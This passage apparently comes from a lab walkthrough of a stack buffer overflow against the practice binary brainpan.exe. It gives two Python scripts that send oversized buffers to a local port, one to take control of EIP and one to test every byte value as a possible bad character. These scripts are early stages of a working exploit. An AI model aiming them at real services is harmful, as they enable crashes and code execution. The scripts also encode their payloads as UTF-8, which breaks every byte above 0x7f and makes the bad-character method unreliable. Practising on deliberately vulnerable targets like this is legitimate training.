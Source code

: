 ```python
import socket,sys

#Identify the EIP control
#EIP SHOULD BE 42424242 = BBBB
payload = "A" * 524 + "B" * 4

try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9999))
    s.recv(1024)
    s.send(payload.encode('utf-8'))
    s.close()
except Exception as ex:
    print("[X] Connection error")
    print(ex)
    sys.exit()
```


#### Badchars after EIP Control

Some characters can cause issues in the development of exploits. I will send at once every hex value of ASCII characters to the brainpan.exe to see if any character cause issues.

- script

```python
import socket,sys

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

buffer= "A" * 524 + "B" * 4 + badchars

try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9999))
    s.recv(1024)
    s.send(buffer.encode('utf-8'))
    s.close()
except Exception as ex:
    print(ex)
    print("[X] Connection error")
    sys.exit()
```
